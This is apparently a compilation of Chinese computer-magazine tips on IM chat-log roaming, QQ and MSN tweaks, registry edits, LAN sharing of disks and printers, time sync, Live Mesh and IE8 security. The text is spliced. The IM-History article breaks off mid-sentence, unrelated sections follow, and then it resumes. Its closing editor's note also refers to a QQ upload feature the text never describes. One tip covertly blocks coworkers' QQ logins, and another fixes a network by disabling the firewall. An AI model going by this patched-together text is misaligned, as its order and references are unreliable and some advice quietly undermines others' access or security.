IM-History提供了聊天记录的在线漫游服务，可以非常方便地将MSN、Skype、Yahoo等众多即时通信工具的聊天记录保存在网站上，从而实现漫游功能。

## ## 1.程序的安装及设置

**第1步：** 下载安装完毕，运行IM-History，首先要求我们注册成为其会员，按提示要求用自己的邮箱注册一个IM-History帐号，按要求填写各种信息。

**第2步：** 填写完毕，系统会向注册邮箱中发送一封激活邮件，进入邮箱收取激活邮件，完成账号的激活过程。

**第3步：** 激活后，程序会自动检测当前系统中正在运行的IM工具，因此，在激活前请确保IM工具已经启动，检测识别后，我们只需单击“Save&Close”保存即可。

## ## 2.聊天记录的上传及使用

以后IM-History会在后台随Windows的启动而启动，当我们调用MSN等IM工具进行聊天时，IM-History会即时将聊天记录上传到网站上，无需用户手动上传，十分的方便。

当到达另外一个地方，需要查看些前在其他地方的聊天记录时，只需再次安装和启动IM-History，在打开的窗口中，切换到某款IM工具名称命名的选项卡，在其下列表中选择某个联系人，就可以查看自己与该联系人所有的聊天记录了。为了方便查阅，我们可以利用时间标签进行一下过滤，仅查阅某个时段的聊天记录，非常的方便（见图4）。
用户可以下载安装



## 让指定的QQ号在你的电脑无法登录

公司办公室里只有笔者的这一台电脑可以接外网，其他同事的都禁连外网。工作之余同事们都喜欢来挂QQ聊天、玩游戏，时间一长笔者办公的地方也被占用了。但碍于颜面又不好当面请他们离开，只好从QQ上想办法了。

-   1. 打开控制面板里的文件夹选项，选择“查看”选项卡，把里面的“使用简单文件共享”前面的钩去掉，然后确定。
-   2. 在QQ的安装目录里找到同事的QQ号码文件夹，右键单击此文件夹选择“属性”。
-   3. 在“安全”选项卡里面把“写入”的权限改为“拒绝”，之后确定，如此设置后在笔者的机子上同事就上不了他的QQ了。

如果要撤销这个功能，只需把选项卡里面把“写入”的权限改为“允许”就可以了。

> 小提示：这个办法适用于QQ安装目录所在盘为NTFS格式的硬盘分区，FAT32分区的不适用。

如果你觉得上面的方法有点复杂不实用，也可以进入到安装QQ程序的目录把先前同事们登录过，所产生的那些与他们QQ号码命名的文件夹删除，只留下自己用的QQ号码文件夹。然后再把QQ安装目录里面有个名为“WizardCtrl.dll”的文件转移到其他地方或删除，最好是转移，可以随时恢复。你就会发现只有你的QQ可以登录，别的QQ登录不了！

> 小提示：在聊天窗口中，我们用“传送文件”一次只能发送一个文件，如果有多个文件要发送给某个好友，频繁地点击“传送文件”按钮很是麻烦。可以一次选中多个文件，然后直接拖送到好友头像上，这样就能一次发送多个文件了，是不是很简单呢？

## 删除无用的MSN共享文件夹

对于经常使用MSN聊天的朋友来说，当打开“我的电脑”窗口时，大家一定会发现在该窗口多出了一个MSN共享文件夹（见图1A处）。这个MSN共享文件夹相信大家很少用到，留着它真是有碍观瞻呀。那么，能不能将这个无用的文件夹删除以让“我的电脑”窗口变得更清爽呢？答案当然是肯定的。下面，笔者就给大家介绍一下如何来实现。

单击“开始→运行”，打开“运行”对话框，接着在这个对话框中输入“regedit”（不包含外侧引号）并单击“确定”按钮，打开“注册表编辑器”；然后依次展开以下分支[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer\NameSpace]，再选中该分支下的[{FC9FB64A-1EB2-4CCF-AF5E-1A497A9B5C2D}]”项（见图2A处），右击鼠标，选择“删除”，将“[{FC9FB64A-1EB2-4CCF-AF5E-1A497A9B5C2D}]项删除，最后关闭“注册表编辑器”即可。

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer\NameSpace\{FC9FB64A-1EB2-4CCF-AF5E-1A497A9B5C2D}]
```



完成以上操作后，注销或者重新启动系统，这时再打开“我的电脑”窗口，大家就再也看不到图1，A处所示的那个令人十分讨厌的MSN共享文件夹了。如果大家也十分讨厌那个MSN共享文件夹的话，不妨试试本文所介绍的方法，相信一定能够轻而易举地将其删除的。



装客户端，其能够自动同步联系人和聊天记录到其网站之上，同时支持导入已经保存的聊天记录。其支持自动记录聊天记录，而且可以预览聊天记录中的贴图和视频链接。具有强大的搜索和联系人管理功能。

> 小提示：IM-History分Windows和Linux版本，支持Skype、Yahoo! Messenger、ICQ: ICQ 99-2003a (Classic)、ICQ 2003b (Pro)、ICQ 4-5.1 (Lite)、Windows Live Messenger (MSN 8.0-8.1)、MSN Messenger 4.6-7.5、Windows Messenger (embedded into WinXP)、Miranda 5-6、QIP 2005等在内的各种IM工具聊天记录的漫游。

编后：通过上面我们对QQ聊天记录上传功能和IM-History的介绍，大家已经很清楚了，QQ聊天记录上传功能每一个QQ好友只能上传50KB的聊天内容，给人一种小里小气的感觉。而IM-History支持的IM工具众多，且没有时间和人数的限制，非常的实用，不足之处是英文界面，且在异地使用漫游聊天记录功能时，需要首先安装IM-History，略显麻烦。

## ## QQ空间背景音乐连续播放

对于喜欢装扮自己QQ空间的朋友来说，一定希望他人在自己的空间上久留。但能否将背景音乐设置成连续播放呢？经过一番折腾，还终于找到了一个好方法。

```xml
<ASXversion="3.0">
<Title>播放列表</Title>
<REPEAT>
<Entry>
<Title>播放标题</Title>
<Author>qqzones</Author>
<Copyright>qqzones.com</Copyright>
<Abstract>qqzones.com</Abstract>
<ref href="音乐绝对地址1"/>
<ref href="音乐绝对地址2"/>
<ref href="音乐绝对地址3"/>
<ref href="音乐绝对地址4"/>
<ref href="音乐绝对地址5"/>
<ref href="音乐绝对地址6"/>
<ref href="音乐绝对地址7"/>
<ref href="音乐绝对地址8"/>
<ref href="音乐绝对地址9"/>
</Entry>
</REPEAT>
</ASX>
```

然后将它保存为*.asx文件，如“auto.asx”，然后将它上传到某个可以引用地址的网站空间上，最后只需将该地址输入到音乐背景地址栏中，以后你的空间背景音乐就会自动连续播放了。

## ## 阿里旺旺自动滚动签名

前几天发现阿里旺旺一个比较好玩的实用功能，就是“滚动自定义状态”功能，也就是个人的自定义状态能够自动循环滚动。首先登录阿里旺旺，然后点击旺旺个人签名后的小三角，弹出设置签名菜单(见图1)，点击设置，弹出系统设置对话框，新增两条签名内容，要使用滚动显示至少两条信息，然后勾选下面的滚动显示按钮，设置好间隔时间（见图2），点击确定后，你的个人签名就能每隔一段时间自动变换了。





## ## Excel斜线表头绘制，其实并不难

文/姚文连

我们知道，在一些有较多分类选项的Excel工作表中，适当地使用一些斜线表头，可以让我们的表格看起来更专业更美观，但是执行“设置单元格格式-边框”命令，只能在表头单元格中插入两条对角线中的一条，而且输入表头文字也非常麻烦，无法设计出较为复杂的斜线表头。难道真要为了绘制斜线表头，而将Excel工作表再导入到Word表格中去吗？其实，借助Excel软件自带的图形绘制功能，就可以很快绘制出我们所需要的斜线表头。



首先，应根据具体的表头内容，调整表头单元格的行高和列宽。然后依次单击“插入→形状→直线”，将鼠标移到表头单元格中，按住鼠标左键，从斜线的起点拖放到终点，即可画出一条表头直线。如果起点和终点有点偏差，可将鼠标移到直线的起点处(或终点)，鼠标由十字形变成双箭头后，即可按住鼠标向任意一个方向调整直线位置。使用类似的方法，绘制另外两条表头斜线。双击该直线，可以打开“格式”选项卡。然后按住Shift键，依次用鼠标左键单击各条线段，即可全选它们，执行“形状轮廓”命令，设置表头斜线的粗细，一般要与表格的外边框保持一致，这里为1.5磅（见图）。

接下来，单击“直线”工具左侧的“文本框”按钮，在表头单元格的目标位置单击鼠标，输入第一个字“星”，并适当调整其字体、字号等格式，单击该文本框边框，在“形状填充”下将文本框的填充色设置为“无填充颜色”，在“形状轮廓”下将文本框的边框设置为“无轮廓”。然后按住Ctrl键不放，拖动文本框，可以快速复制我们需要的各个文本框。之所以把每一个表头文字都设置成一个独立的文本框，是为了最大限度地利用有限的表头空间。

由于上述斜线表头的绘制方法，只用到Office的绘图功能，因而在Word软件当中，也同样适用。

### 宿舍里的坎坷共享路

任务：现在校园内也能上网包月了，对我们这群住在同一宿舍的学生来说，小算盘便开始打得啪啪响——共享上网！因为我是学网络工程的，这个任务自然就落到我的身上。

设备：2台8口的交换机，网线若干。

方案：因为交换机是前舍友们留下的，为了实现设备再利用，所以采用交换机组网共享，而舍弃双网卡组网共享。1台8口的交换机可以实现7台电脑共享上网，宿舍有12台电脑，2台交换机正好够用。

### 操作：

- 第1步：将要连接的电脑都用网线连接到交换机的端口上，留出一个端口用网线连接到拨号上网的信息插座上，这样物理连接就完成了。
- 第2步：选择一台用来拨号上网的电脑做主机，在“网络连接”里右击“本地连接”，选择“属性”，勾选“连接后在通知区域显示图标”项。双击“Internet协议(TCP/IP)”打开“属性”窗口，如图1所示，IP地址设置为“192.168.0.1”，子网掩码自动变为“255.255.255.0”，默认网关为“192.168.0.1”，首选DNS服务器为“192.168.0.1”，设置完毕点击“确定”。



- 第3步：建立好拨号上网的主机后，右击拨号产生的连接（见图2），选择“属性→高级”，勾选“允许其他网络用户通过此计算机的Internet连接来连接”项。



- 第4步：其他电脑的“本地连接”属性，除了第一个IP地址填写为“192.168.0.2”（最后那个数字可以是2~255中的任意数字，但每台电脑不能重复），其余的与拨号上网的那台电脑相同就可以了。

#### 实战：局域网故障排除路线图

由于我们宿舍的人有爱玩游戏和不玩游戏的，所以将他们分成两个组。但问题也随之而来，玩游戏的一组设置好后拨号共享上网通过，但是不玩游戏的那一组却总不能共享上网。看来得用我的故障排除法了（我这一招对小型局域网很有用）。

- 第1步：在非拨号主机上，打开命令提示符窗口（“开始→运行→cmd”），并“ping 127.0.0.1”。这是一个诊断和环回地址，如果得到一个成功的ping返回，则可以说明IP栈已被初始化过，如果失败则说明IP栈失败，这时问题就可能出在电脑的TCP/IP协议上，一般通过在本地连接属性中重装TCP/IP协议即可解决。



- 第2步：Ping本地主机的IP（如：192.168.0.2），如果成功则说明网卡（NIC）功能正常，如果失败则说明网卡有问题。这时要检查网卡驱动是否正常，网卡硬件本身是否有问题（可采用替换法用其他网卡试试）。
- 第3步：Ping默认网关（本例为：192.168.0.1），如果成功则说明网卡已经连接到网络并且可以与本地网络进行通信，如果失败则说明存在一个本地物理网络问题，这个问题可能出现在网卡到拨号主机之间的任何一个位置上。
- 第4步：Ping远程主机或者域名，如正常则说明电脑可以与远程主机进行IP通信，同时就可以确定远程的物理网络是正常的。

经过上面一步步诊断后，我发现问题出在第3步Ping拨号主机不通，这就能确定问题是在连接线路到拨号主机这一网段上了。开始以为是交换机、网线或者拨号主机系统有问题，但用替换法测试后还是没有成功。万般无奈之下（差点想放弃），我对已通过的那一组进行仔细检查，发现他们每台电脑都会出现Windows警报的红色提示，打开看了一下他们都是关闭防火墙的（在校园网玩游戏，必须将防火墙关闭才能看见对方建的房间），这让我一下子醒悟了过来，当即将拨号主机的防火墙关闭，问题终于解决了。

### 齐步走别掉队 局域网内时间同步

文/河南/李传忠

计算机时钟一般是以廉价的振荡电路或石英钟为基础，准确度在1E-6甚至1E-5量级，每天的时间累计误差可达数秒，经过长时间的累积后就会出现更大的误差。这对时间要求比较敏感的系统，会造成一些不好的影响，可通过时间同步解决此问题。如果是位于某局域网的机器，又不能直接连接因特网，如何实现时间同步呢？下面提供一种方法。

首先选择一台机器作为时间服务器，记录下IP地址。在需要精确时间时，一般采用外接GPS或内置（卡）完成时钟同步信号校对，保证时间服务器的准确性。然后让网络中其他计算机，根据时间服务器的IP地址进行校对同步，本例时间服务器IP为192.168.0.6。

在Windows 2000/XP系统中，可以双击系统栏时间调出时间设置窗口，点击“Internet时间”，勾选“自动与时间服务器同步”项，并在“服务器”中填入“192.168.0.6”（局域网本地时间授权服务器），然后点击“立即更新”，即完成了与服务器的时间同步（见图1）。



之后，系统会按时同步时间，系统默认的同步间隔是7天，而对走时不准的微机来说，7天的误差可能达到了几十秒，所以可通过修改注册表来改变同步时间的间隔：启动注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient]分支，在右侧找到“SpecialInterval”项，双击打开，其中的数值即同步时间间隔值。这一数值是以秒为单位的，如图2所示，其中的秒数值等于7天，按需要修改即可。



**小提示** 如果还有使用Windows 98的系统，因为其时间设定功能不完善，所以可通过自动批处理和计划任务来实现同步，或采用第三方时间同步软件。具体方法：假设建立名为time.bat的批处理文件，包含的内容为“net time \ip(时间服务器地址) /set /yes”（不含外侧引号）；将此程序放到启动和计划任务内，进行定时校对即可。或者可使用iTimeSync（下载：http://www.onlinedown.net/soft/25886.htm）来校正，运行后在选项中手动设定服务器IP。这一软件同样可工作于Windows XP/2003中。

### 邮件轻松转移 不怕系统重装

文/李云峰

系统变慢，或者有杀不干净的病毒，或者旧电脑升级，诸多原因导致我们经常要重装系统。不过要注意，如果你的邮件程序安装在系统分区（一般为C盘），重装时会导致数据被覆盖，丢失重要邮件可就事大了。所以，重装前，最好将邮件数据迁移备份到其他分区。

使用Foxmail的用户，可以直接将Foxmail文件夹整个复制到其他分区，重装系统后，不用重装Foxmail，只要双击Foxmail.exe运行（或在桌面上建立它的快捷图标），会发现原来的邮件依然都存在。

如果是使用Outlook（以2007版为例），可执行“文件→导入和导出”命令，选择“导出到文件”，单击“下一步”，选择“个人文件夹文件（.pst）”，单击“下一步”。接着在“导出个人文件夹”界面选择“个人文件夹”，并勾选下方的“包括子文件夹”项，单击“下一步”（见图1）。最后选择文件保存路径，单击“完成→确定”就可以了。



重装系统及Outlook之后，运行Outlook后，执行“文件→导入和导出”命令，选择“从另一程序或文件导入”项，导入之前保存的PST文件，以前的邮件就又都回来了（见图2）。



**小提示** ★此方法可一次性导出邮件、地址簿、日历等Outlook中相关的数据，如果新系统中并不需要导入所有的项目，在导出时选择相应的项目即可，比如只选“收件箱”。 ★如果邮件账号的设置比较麻烦，或者不知道邮件账号该如何设置，可在旧系统上运行“regedit”打开注册表编辑器，依次定位到“HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles\Outlook”项，然后找到下方以数字开头并且存在类似于00000001、00000002这样的子项，将该数字项导出。重装系统后，导入备份的注册表数据即可完成账号的添加了。不过在收邮件时需要重新输入密码，可在输入密码的同时勾选“将密码保存在密码列表中”，以后再收、发邮件时就不必重新输入密码了。不过在知道邮件账号如何设置的情况下不建议这样做，防止因机器环境的不同引起软件异常。

### 省钱有妙招 硬件设备一物多用

文/李学昌

局域网的好处自不必多说，此处专表它的“硬”共享，即共享硬盘和光盘、刻录机、打印机、音箱等。下面就看看某小小广告设计公司是如何在多台电脑间合理地用好这些硬件设备的。为方便叙述，这里我们只讲三台电脑间的设置，它们的计算机名分别是：neizhu1、neizhu2和waike，它们位于局域网的同一工作组内，已能相互访问（见图1）。



#### 共享移动硬盘

连接因特网和移动存储器，接收客户的设计素材，都是由计算机waike来承担，显然，这台电脑是外来信息的入口，只要管好它，其他电脑就都有了一定的安全保障。neizhu1主要用于打印广告，只要能单向访问移动硬盘即可，而neizhu2主要负责公司内部杂务，可让它双向访问移动硬盘。下面是具体设置方法。

- 1.设置用户名

在名为waike的电脑上右击桌面上的“我的电脑”，选择“管理”。接着，展开左侧的“本地用户和组→用户”，单击“操作→新用户”，在“用户名”后输入DX并设置好密码。取消对“用户下次登录时必须更改密码”的勾选，同时选择“密码永不过期”。最后，单击“创建”生成一个受限用户账号。同样方法创建名为ZD的账号。完成后分别登录一次这两账号完成初始化。

- 2.设置读写共享

在名为waike的电脑上，插入移动硬盘，右击之并选择“共享和安全”，在弹出的对话框中选择“共享此文件夹”，共享名设置为“移动硬盘DX”（见图2）。接着单击“权限”，删除默认的Everyone用户组。然后，依次单击“添加→高级→立即查找”，选择用户DX后单击“确定”。结果将如图3所示，在“允许”下将“完全控制”、“更改”、“读取”等都勾选上。这样，在其他电脑上以DX为名来访问移动硬盘时将拥有读写权限。





- 3.设置只读共享

在名为waike的电脑上，在图2中单击“新建共享”，同上方法将账户ZD添加进来，与前一步不同的是，请在允许下只勾选“读取”。这样，在其他电脑上以ZD为名来访问移动硬盘时将只有读取权限。至此，我们已为同一目标（即移动硬盘）设置了不同的访问权限。

- 4.安全设置

还是在名为waike的电脑上单击“开始→控制面板→管理工具→本地安全策略”，在打开的对话框中展开左侧“安全设置→本地策略→用户权利指派”，在右侧找到“从网络访问此计算机”并双击。接着，单击“添加用户和组”，与前面操作类似，将DX和ZD添加进来。

同理，展开“安全设置→本地策略→安全选项”，找到右侧的“网络访问：本地账户的共享和安全模式”，双击并选择“经典 - 本地用户以自己的身份验证”。至此，在电脑waike上的设置已全部完成。

- 5.访问

在名为neizhu2的电脑上创建名为DX的系统账号并登录，双击桌面上的“网上邻居→查看工作组和计算机”，可观察到名为waike的电脑，双击，输入用户名DX及其密码（见图4）即可登录waike并观察到已共享出来的移动硬盘，包括移动硬盘ZD、移动硬盘DX（注意，它们是同一目标），但只能打开移动硬盘DX，打开后，可对移动硬盘进行读写操作。同样，在neizhu1上以ZD身份登录，也能进入waike并打开移动硬盘ZD，而且只拥有只读权限。



#### 共享打印机

打印机的共享比较简单，但用处却比较大，可在自己的电脑上选择另一电脑的打印机来打印文件。设置打印机，可在安装打印机的过程中选择共享，也可在安装后完成，下面以安装后的设置为例进行说明。

- 第1步：设置共享。在名为neizhu1的电脑上，单击“开始→打印机和传真”，从打开的窗口中选择已安装的打印机，右击之，选择“共享→共享这台打印机”就行了。
- 第2步：共享打印。在其他电脑比如Neizhu2上单击“开始→打印机和传真”，可观察到由neizhu1共享出来的打印机。在此，可将本地打印机或网络打印机设置为默认值，右击之，选择“设置为默认打印机”就行了。在打印文件时，如果要选择非默认打印机，可手动进行选择，如图5所示。



#### 共享刻录机

Windows系统并未提供共享刻录机功能，要完成共享，可借助NeroBurningROM和NeroNET来完成。其中NeroBurningROM就是大名鼎鼎的刻录软件；NeroNET（http://cztele1.skycn.com/down/NeroNET1202.exe）也是同一公司出品的与NeroBurningROM配套使用的小工具，它专门负责对刻录机进行共享。下面，我们将通过电脑waike（主机）去访问neizhu2（客户机）上的刻录机。

- 第1步：主机端设置

在neizhu2电脑上安装Nero和NeroNet，完成后NeroNet会随着Windows的启动而自动加载。右击系统托盘处NeroNet图标，选择Web Configuration（网络配置）打开设置页面。单击User Management（用户管理），按提示输入NeroNet的默认登录用户（用户名：Administrator，密码：neronet，NeroNet的帮助文件中有叙述），回车后即可进入管理页面。单击Add User（添加用户）按钮，输入新用户名和密码后添加新用户到列表中（见图6）。重复操作可设置更多用户。



在设置窗口上方点击Recorder Settings（刻录机设置），单击Active recorder（活动刻录机）下拉按钮选择要共享的刻录机。

- 第2步：客户机设置

在客户机（本例为waike）上安装Nero，运行后在软件的菜单栏上依次选择“File→Preferences”（文件→设置）打开配置对话框，切换至Expert Features（高级属性），勾选Enable NeroNet support（激活NeroNet支持）并单击NeroNet按钮，进入创建用户对话框。如果主机的NeroNet正在运行中，那么从服务器列表框中便可以看到服务器名称以及服务器所在的IP地址。输入上一步在NeroNet中添加的用户及密码，点击“确定”登录。

- 第3步：刻录

接下来在Nero Burning ROM中打开选择刻录机窗口，其中会列出本地及远程光驱的信息，选择前面从neizhu2上共享出来的刻录机，然后按常规步骤进行刻录操作就可以了。

#### 共享音箱

与共享刻录一样，共享音箱也得通过工具软件来实现。比如用“远程播放器”（http://sccrc.onlinedown.net/down/rap227.exe）配合Realplayer来完成。下面，我们将在电脑waike上用neizhu2上的音箱来播放歌曲。

- 第1步：软件安装。在两台电脑上都安装Realplayer和“远程播放器”。
- 第2步：在neizhu2上运行“远程播放器”，弹出如图7所示对话框。单击“切换连接”下的“新建连接”。接着，在下一对话框的“机器名称”后输入另一台电脑名，本例为waike。然后单击“远程控制”。这样，neizhu2上的“远程播放器”将处于待命状态。



- 第3步：在waike上，运行“远程播放器”，与上类似地设置连接。不同的是，输入的机器名应为neizhu2，而且必须单击一下“交换端口”，再单击“远程控制”。

通过以上设置，借用音箱的设置已全部完成，就等着播放了。

- 第4步：连接播放列表。在waike上打开“远程播放器”，单击“文件”下的“添加列表”，将要播放的音乐文件导入进来。接着，单击“网络控制”下的“发送列表”，让neizhu2知道将要播放些什么歌曲。然后，在neizhu2上，运行“远程播放器”，单击“网络控制”下的“接收列表”，成功后能在远程播放器下观察到对方发送过来的歌曲名单。

以上操作全部完成后，就能远程借用音箱进行播放了。要强调的是，歌曲位于waike上而音箱却是neizhu2的。

### 网络硬盘哪个更强？

文/越野苍狼

宽带的普及，使网络应用越来越丰富，网络硬盘由于其便捷性得到广大网友的喜爱。为了“抢”用户，除了一些专业网络硬盘服务商外，一些传统互联网企业也推出了类似服务，微软提供的Live Mesh服务就是一例。接下来我们一探Live Mesh的究竟。

#### Live Mesh三大法宝

- 1.网络存储

与所有的网络硬盘一样，Live Mesh同样提供了网络存储功能，并且出手阔绰，为用户提供了5GB的免费存储空间。Live Mesh的网络存储功能也非常简单，只要你拥有一个Windows Live ID即可。

第一步：进入http://www.mesh.com页面，单击右上角的Sign in，使用Windows live ID登录，在新打开的页面中单击“I agree”按钮即可。

第二步：单击页面顶部的Desktop，将Get Started导航页面关闭，即可进入网络存储页面。双击Create new folder按钮，在打开的对话框中输入新建文件夹的名称，单击OK按钮即可完成文件夹的创建。

第三步：在打开的文件夹窗口中，单击Upload File按钮可以上传文件（见图1），如果上传了MP3等媒体文件，单击Media View按钮还可以在线听音乐，只不过需要安装微软的Silverlight插件。



+   ★在打开的文件夹窗口中，单击Click here to enable file drag and drop区域，在弹出的对话框中单击continue按钮，按照提示安装Live Desktop插件，然后就可以实现本机与Live Mesh之间的文件拖动操作了。
★如果想让网盘中的文件与他人共享，必须在文件夹的Members界面中进行邀请，并可设定被邀请的人对文件夹拥有什么样的权限，对方接受邀请后，便可共享文件了。

- 2.文件同步

如果仅仅是网络存储，且速度也没有国内的一些网络硬盘快，微软的这个Live Mesh一推出就会注定成为一款失败的产品。也许微软也意识到了这一点，所以微软这次是有备而来的，如果你对网络存储的兴趣还不是很大，那对这个文件同步的功能肯定感兴趣。

第一步：单击页面上方的Devices按钮转到设备页面，然后单击的Add Device按钮，在下方选择自己的操作系统类型，然后单击Install按钮下载并安装Live Mesh客户端工具。

第二步：Live Mesh客户端工具安装完毕之后，使用Windows Live ID登录，登录成功后，Live Mesh会提示填写本机的名称，然后单击Add device完成设备的添加。

第三步：设备添加完成后，稍等之后桌面上会出现之前在Live Mesh的Desktop中创建的文件夹的快捷方式，双击该快捷方式，可以指定本地用来同步的文件夹（见图2）。



+   ★也可以打开“我的电脑”，打开Live Mesh Folders，在打开的窗口中右击空白处，依次选择Live Mesh Options→Create folder in Live Mesh创建一个新的同步文件夹。

接下来，无论是在Live Mesh的Desktop中上传了文件，还是直接将文件放入本地的同步文件夹中，本地文件夹和Live Mesh Desktop中的文件夹内容都会自动同步了。也许文件同步会成为办公人士的最爱，因为在单位和家中的电脑上都安装了Live Mesh客户端，并且使用同一账号登录后，可以非常方便两台电脑之间的某些数据文件的同步，好比一个网络“公文包”，再也不用担心准备回家做的资料忘记拷入优盘了。

- 3.远程控制

到单位才发现，昨天晚上加班整理的资料忘记放到Live Mesh同步文件夹中了，难道要回家去拿吗？只要家中的电脑是开的，并且Live Mesh客户端是在线状态，这时通过Live Mesh的远程控制功能即可把文件“拿”回来。

第一步：将鼠标指针指向系统托盘上Live Mesh图标上，在弹出的Live Mesh界面中单击下方中间的电脑图标，单击家中电脑名称右侧的“Connect to device”（见图3）。

第二步：在弹出的对话框中单击Continue按钮开始远程连接，稍等之后便会成功连接上远程电脑，这时就可以像操作本地电脑一样操作了，操作的流畅程度与网络带宽有关。

## 附表

| 网盘名称 | 空间大小 | 下载均速 | 主要功能 | 优点 | 缺点 | 使用建议 |
|----------|----------|----------|----------|------|------|----------|
| Live Mesh | 5GB免费 | 25kb/s | 网络存储、文件分享、自动同步、远程控制 | 功能丰富，简单易用 | 下载、上传速度较慢，文件共享不方便 | 办公人士的绝佳伙伴，异地办公同步数据必备 |
| 3ADISK | 128MB免费 | 免费用户限速100kb/s | 文件存储、文件分享 | 下载速度稳定，共享方便 | 每日下载量有限制，一个月未登录文件会删除 | 小文件分享 |
| 永硕E盘 | 80MB免费 | 135kb/s | 文件存储、文件分享、在线讨论 | 下载速度快、文件共享方便 | 空间小，限制多，免费空间单个文件大小及下载量有限制 | 适合与他人分享学习资料及小软件 |
| 纳米盘 | 初始大小1GB，可扩容至5GB | 163kb/s | 文件存储、文件分享、外链引用 | 下载速度快，支持外链贴图 | 共享空间中文件存放时间较短 | 支持外链贴图，“坛友”必备 |

★虽然通过Web页面中的Live Mesh同样可以实现远程控制，但由于Web界面中登录Live Mesh后，如果超过10分钟没有动作，系统将会自动断开链接，因此建议使用Live Mesh客户端进行远程控制操作。

### Live Mesh与流行网盘比较

Live Mesh刚刚推出，虽然文件上传、下载的速度与国内主流的网络硬盘都存在一定的差距，那Live Mesh与主流网络硬盘相比又有哪些优势呢，详见附表（其中下载速度以2Mbps的电信ADSL网络进行测试）。

### 网络硬盘的发展趋势

从前面的描述可以看到，Live Mesh已经不仅仅是一种网络在线存储服务，而是在此基础上引申出非常实用的“增值”服务，无处不在的网络，5GB的容量，自动同步功能，简直就是在抢优盘的饭碗了。远程控制功能无论是操作自己的不同的电脑，还是进行电脑救援，都是非常实用的功能。由此可见，网络硬盘也和很多传统的软件、网络服务一样，都是从“专业”化向多样化进行转变，因为单一的存储很难发展很好的用户粘性，唯有方便实用的“增值”服务，才能让用户更忠诚。而目前来说，Live Mesh最大的问题就是速度慢的问题，因此国内的网络硬盘服务商们还有一个追赶的时间，否则等微软将速度提升之后，很难让人有理由不去使用Live Mesh。

## IE8里的安全盾牌

文/李云峰

眼看着浏览器市场越来越大，竞争对手越来越多，而那个不争气的IE7却少有人问津，微软终于也有点坐不住了，很快推出了新的IE8（下载地址：http://www.microsoft.com/china/windows/internet-explorer/）。IE8除了在浏览功能方面有了不少改进外，其中的增强上网安全尤其让人称道。

### 网络钓鱼钓不到我

“腾讯**周年，送6位QQ号码了”，后面再跟上一个超长的网址。这类骗局相信很多人都见过了，在以往普通用户无法分辨，因为提供的网址、链接大多数都是经过伪装的，普通用户很容易受骗。
IE8则提供了网址智能检测功能，不论网址多长，IE8总是能自动检测出真正的域名并高亮显示（见图1）。这样在遇到一些需要输入用户名密码的网站时，不妨多注意一下地址栏，看清楚真正的域名很重要。

### 恶意软件智能防护

除了网址的智能检测外，IE8还提供了“SmartScreen筛选器”功能。在IE8中，输入一个网址时，IE8会通过网络与微软的一个网址数据库进行对比，一旦发现是已知的钓鱼网站或将要下载的内容是危险内容时，会弹出警告提醒，一方面可以加强网络钓鱼的防护，另一方面对于抵御恶意软件方面也非常有效。
在IE8中，单击工具栏的“安全”按钮，在下拉菜单中选择“SmartScreen筛选器”，如果其下级菜单中有“关闭SmartScreen筛选”项则说明该功能已经开启，如果是“开启SmartScreen筛选”项，则需要单击该项开启该功能。

### 隐私浏览不留痕

在访问网络的时候，特别是使用公用电脑，大多数情况下都不希望浏览器记下自己的访问痕迹。虽然可以手工删除，毕竟麻烦，并且万一忘记删除则记录就会保留。
IE8提供了隐私浏览功能，在隐私浏览器模式下，所有的网页浏览活动，在IE8关闭后，不会留下任何痕迹。在IE8中，执行“安全→InPrivate浏览”，这时会打开一个新的窗口，并且在地址栏中可以看到有InPrivate（私秘状态）字样，这时表示浏览已经处在隐私浏览模式下了（见图2）。

## 几招助你公司网络打印大提速

文/TMG hzl

在日常办公应用的各环节中，打印是必不可少的，也是比较频繁的。公司网络打印速度慢的话，简直就是折磨人，既耗费时间又影响工作效率。其实，公司网络打印速度慢的原因很多时候是因为大多数公司出于降低成本的考虑，选择普通型号打印机，使用局域网共享实现网络打印，这样很容易导致打印速度非常慢。发生这种情况，当然与打印机本身的性能脱不了关系，但更多的时候是因为对系统、打印机参数的设置不恰当而导致。下面，我们就来介绍几招，帮助公司网络打印提升速度，提高工作效率。

### 抛弃繁琐步骤，直接跨越网上邻居打印

使用网络打印时，首先要设置跨越网上邻居，使计算机直接与网络共享打印机连接，这样省时省力，打印时也方便快捷得多。否则打印时，首先要打开网上邻居，接着还要从那里找到目标共享打印机将它双击以便与它建立打印连接，然后才能开始正式打印。怎么设置绕开网上邻居？很简单，借助Windows XP中配置脚本的功能即可实现。

+   第一步：打开本地系统中的记事本，在文本编辑窗口中输入两行代码：@echo off和net use \computer\print。
第二步：在输入过程中，将共享打印机所在的计算机主机名称替换为computer，而共享打印机的名称替换为print。接着将它保存为bat格式，具体操作就是执行“文件→保存”命令，在弹出的文件保存对话框里把保存类型设置为“所有文件”，而在文件名输入框中则输入文件及其.bat后缀，例如可将它命名为autoprn.bat。
第三步：执行“开始→运行”命令，在弹出对话框里输入“gpedit.msc”，然后单击“确定”按钮。本地计算机的系统组策略编辑窗口就打开了，在窗口的左侧区域里依次展开“用户配置→Windows设置→脚本－（登录/注销）”组策略分支项目，接着双击右侧窗口中的“登录”选项，将其属性窗口打开（见图）。
第四步：在属性窗口里，单击“添加”按钮，将刚才已创建好的autoprn.bat文件导入进来，单击“确定”，然后就可根据系统提示重新启动电脑。电脑启动完成后，与目标共享打印机的连接就会自动建立了。下次打印时，只要直接单击“打印”按键即可完成打印操作，比以前简化很多操作步骤，省时省力。

### 改善注册表，拒绝频繁发送

我们都知道，共享打印机默认下每隔一段时间都会自动发送一些状态信息给局域网内其他计算机。这一点在网络速度不太好的情况下可能会很大程度影响打印作业的响应及时性。为了避免这种情况发生，建议修改注册表，将共享打印机向局域网发送状态信息的时间间隔大幅度延长，拒绝频繁发送，提高打印速度。

+   第一步：执行“开始→运行”命令，输入regedit后单击“确定”按钮，打开注册表编辑窗口。
第二步：在这个窗口左侧区域里，依次展开“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print”后，双击注册表键值ServerThreadTimeout。注意，假如你的系统没有这个键值，可以右击Print子项，在快捷键菜单里依次执行“新建→DWORD值”命令，然后将其名称设置为ServerThreadTimeout即可。
